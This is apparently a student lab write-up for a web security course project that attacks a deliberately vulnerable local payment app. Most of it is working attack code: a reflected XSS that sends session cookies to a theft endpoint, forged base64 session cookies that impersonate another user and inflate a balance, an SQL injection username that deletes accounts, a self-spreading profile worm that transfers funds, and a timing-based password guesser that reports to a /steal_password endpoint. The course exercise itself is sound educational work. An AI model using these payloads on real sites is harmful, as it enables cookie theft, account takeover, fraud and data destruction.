


# Project 1

## Team members

- PRO
- zzh

## Procedure

### a

1. Test HTML injection via: `http://localhost:3000/profile?username=<script>alert(1);</script>`, which works.
2. Try `http://localhost:3000/profile?username=hack<script>location.href="/steal_cookie?session_cookie="+document.cookie</script>`, but `+` got interpreted as space.
3. Simple fix: ```http://localhost:3000/profile?username=hack<script>location.href=`/steal_cookie?session_cookie=${document.cookie}`</script>```, but the redirect would be visible to user.
4. Using `fetch`: ```http://localhost:3000/profile?username=hack<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);</script>```
5. Fixing `User does not exist`: ```http://localhost:3000/profile?username=<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);document.querySelector("p.error").remove();</script>```

### b

Having tried `<form>`, `XMLHttpRequest` and `fetch`, but all of them refused to send cookies: `Partitioned cookie or storage access was provided to “http://localhost:3000/post_transfer” because it is loaded in the third-party context and dynamic state partitioning is enabled.`. The root cause is that, on firefox:

> A request to access cookies or storage was partitioned because it came from a third-party (a different origin) and dynamic state partitioning is enabled.

Our request does not come from `localhost:3000`, so firefox refuses to send it with cookie.

**Solution**: Change [firefox settings](about:preferences#privacy) according to the image.



After changing the settings and re-visiting our HTML, the attack shall succeed:


### c

Let's inspect `document.cookie`:

```text
session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6ImF0dGFja2VyIiwiaGFzaGVkUGFzc3dvcmQiOiIwZmM5MjFkY2NmY2IwNzExMzJlNzIzODVmMTBkOTFkY2IyMTM5ODM3OTJkZmU5M2RlOGI1ZDMyNzRiNWE1Y2Y1Iiwic2FsdCI6IjIxODM0NzA4NDkyOTcwODYwMzY4OTQwNzEwMTMxNTYwMjE4NzQxIiwicHJvZmlsZSI6IiIsImJpdGJhcnMiOjc2fX0=
```

The value of `session` seems to be base64-encoded. Let's decode and see what it contains:

```json
{
    "loggedIn": true,
    "account": {
        "username": "attacker",
        "hashedPassword": "0fc921dccfcb071132e72385f10d91dcb213983792dfe93de8b5d3274b5a5cf5",
        "salt": "21834708492970860368940710131560218741",
        "profile": "",
        "bitbars": 76
    }
}
```

By inspecting `router.js`, we see that once logged in, the server won't check the correctness of password. So we can simply change `account.username` to `user1`, `account.bitbars` to `200` and base64-encode it. Here's our final script:

```javascript
document.cookie = "session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6InVzZXIxIiwiaGFzaGVkUGFzc3dvcmQiOiIwZmM5MjFkY2NmY2IwNzExMzJlNzIzODVmMTBkOTFkY2IyMTM5ODM3OTJkZmU5M2RlOGI1ZDMyNzRiNWE1Y2Y1Iiwic2FsdCI6IjIxODM0NzA4NDkyOTcwODYwMzY4OTQwNzEwMTMxNTYwMjE4NzQxIiwicHJvZmlsZSI6IiIsImJpdGJhcnMiOjIwMH19";
```

### d

From our exploit at [c](#c), we learn that we can modify `account.bitbars` to any value of our choice. However, since username and other details are unknown, we need to generate our payload real-time using JavaScript:

```javascript
const b64 = document.cookie.slice(8);
const data = JSON.parse(atob(b64));
data.account.bitbars = 1000001;
const payload = btoa(JSON.stringify(data));
document.cookie = "session=" + payload;
```

After executing the code and performing a $\$1$ transaction, the balance of our account shall be $\$1000000$.

### e
```sql
1'; Delete From Users Where username = 'users' or username = '1'; -- 
```
The actual user name of the malicious user name is "1"，then we use "Delete" sentences to delete account "user3" and "1" from data base.

### f

First, let's test if the profile page is vulnerable by using the following text as the profile text:

```html
<script>alert("ATTACK");</script>
```

Seeing the alert, we can confirm that the profile page is vulnerable:



Now we can construct our profile worm as follows:

```javascript
// `f.js`
function getCurrentUsername() {
    const b64 = document.cookie.slice(8);
    const data = JSON.parse(atob(b64));
    return data.account.username;
}
function fakeBitbarCount(amount) {
    const observer = new MutationObserver(mutations => {
        const span = document.getElementById("bitbar_count");
        if (span === null) {
            return;
        }
        span.className = amount;
        observer.disconnect();
    });
    observer.observe(document.body, { childList: true, subtree: true, attributes: false });
}
async function transfer(username, quantity) {
    const r = await fetch("/post_transfer", {
        method: "POST",
        credentials: "include",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
        },
        body: `destination_username=${username}&quantity=${quantity}`
    });
    const text = await r.text();
    const success = text.includes("Successfully transferred");
    return success;
}
async function getProfile(username) {
    const r = await fetch("/profile?username=" + username, {
        credentials: "include"
    });
    const text = await r.text();
    const doc = new DOMParser().parseFromString(text, 'text/html');
    const profile = doc.getElementById('profile')?.innerHTML;
    return profile ?? "";
}
async function setProfile(content) {
    const encoded = encodeURIComponent(content);
    const r = await fetch("/set_profile", {
        method: "POST",
        credentials: "include",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
        },
        body: `new_profile=${encoded}`
    });
    return r.ok;
}
async function attack() {
    const attacker = "attacker";
    const user = getCurrentUsername();
    if (user === attacker) {
        console.log("Does not trigger on attacker account.");
        return;
    } else {
        console.log("Attacking " + user);
    }
    fakeBitbarCount(10);
    transfer(attacker, 1).then(succ => {
        console.log("Transfer success: " + succ);
    });
    const attackerProfile = await getProfile(attacker);
    console.log("Attacker profile: " + attackerProfile);
    const success = await setProfile(attackerProfile);
    console.log("Set profile success: " + success);
}
attack();
```

### g

```javascript
// `g.js`
(function () {
    const dictionary = [`password`, `123456`, `	12345678`, `dragon`, `1234`, `qwerty`, `12345`];
    const test = document.getElementById(`test`);
    async function timeForPwd(password) {
        const url = `/get_login?username=userx&password=${password}`;
        const start = new Date();
        return new Promise((resolve, reject) => {
            test.addEventListener('error', () => {
                const end = new Date();
                console.log(`Time elapsed for ${password}: ${end - start}`);
                resolve(end - start);
            }, { once: true });
            test.src = url;
        });
    }
    async function main() {
        let maxResponseTime = 0;
        let maxResponseTimePwd = '';
        for (const pwd of dictionary) {
            const time = await timeForPwd(pwd);
            if (time > maxResponseTime) {
                maxResponseTime = time;
                maxResponseTimePwd = pwd;
            }
        }
        console.log(`Max response time: ${maxResponseTime} for password: ${maxResponseTimePwd}`);
        test.src = `/steal_password?password=${maxResponseTimePwd}&timeElapsed=${maxResponseTime}`;
    }
    main();
})();
```

Minify the script and insert it into the following HTML:

```html
The user
<span style='display:none'>
    
    <script>
        // Minified `g.js`
    </script>
</span>
```

Now we have our payload ready at `g.txt`.

## References

- Detailed guide on how to install docker: https://lindevs.com/install-docker-ce-on-ubuntu/
- https://stackoverflow.com/questions/168455/how-do-you-post-to-an-iframe
- https://developer.mozilla.org/en-US/docs/Web/Privacy/Storage_access_policy/Errors/CookiePartitionedForeign
- https://stackoverflow.com/questions/35325370/how-do-i-post-a-x-www-form-urlencoded-request-using-fetch
